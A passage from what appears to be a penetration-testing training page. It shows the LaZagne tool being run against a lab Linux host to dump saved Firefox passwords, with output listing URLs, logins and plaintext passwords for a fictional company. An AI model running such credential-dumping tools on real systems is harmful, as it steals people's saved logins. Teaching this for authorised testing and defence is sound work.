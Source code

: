 Alternatively, `LaZagne` can also return results if the user has used the supported browser.

<mark style="color:orange;">**Browsers - LaZagne**</mark>

```shell-session
cry0l1t3@unixclient:~$ python3 laZagne.py browsers

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Firefox passwords -----------------

[+] Password found !!!
URL: https://testing.dev.inlanefreight.com
Login: test
Password: test

[+] Password found !!!
URL: https://www.inlanefreight.com
Login: cry0l1t3
Password: FzXUxJemKm6g2lGh


[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 0.2310788631439209
```
